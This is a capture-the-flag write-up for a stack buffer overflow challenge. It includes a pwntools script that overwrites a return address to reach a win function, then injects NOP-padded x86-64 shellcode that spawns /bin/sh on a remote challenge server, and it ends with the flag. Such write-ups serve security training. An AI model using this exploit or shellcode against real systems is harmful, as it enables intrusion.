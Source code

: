 # pwn_review

nc challenge.osusec.org 31304

## Stack 
```
[return addr] rbp+0x08
[saved rbp]   rbp
              rbp-0x08
              rbp-0x10
              rbp-0x18
[buffer]      rbp-0x20
```

## Python script
```py
#!/usr/bin/env python3

from pwn import *

shellcode = b'jlX\x0f\x05H\x89\xc7H\x89\xc6jrX\x0f\x05H\xbb//bin/shH1\xc0PSH\x89\xe7H\x89\xc6H\x89\xc2j;X\x0f\x05'
# p = process("./pwn_review")

p = remote("challenge.osusec.org", 31304)

addr_win = 0x400577 

print(addr_win)
# this is a review challange, you know the drill
print(p.recvline())
# return to the win function and get the flag
print(p.recvline())
# [return addr] rbp+0x08
# [saved rbp]   rbp
#               rbp-0x08
#               rbp-0x10
#               rbp-0x18
# [buffer]      rbp-0x20

# changing the return address so that its the win function
buffer = b"aaaabbbb" * int(0x20/8) + b"savedrbp" +  p64(addr_win)
print(buffer)
p.sendline(buffer)

# nice! i'll execute any shellcode you give me now
print(p.recvline())
# insert in nonzero 64 bit shellcode
buffer = b"\x90" * 20 + shellcode
print("new buffer for shellcode: ", buffer)
p.sendline(buffer)

p.interactive()

```

## Write up 
When running the binary it tells you what do, which is change the return address of the `part2` function to the address of the `win` function. The buffer is at `rbp-0x20`, and it also has a buffer overflow. You want to fill the buffer up to until the saved rbp, then change the return address of the buffer. Then insert in the shellcode at the next buffer to get the flag.



## Flag
`osu{pwnt00ls_i$_Ch3A7iNG}` 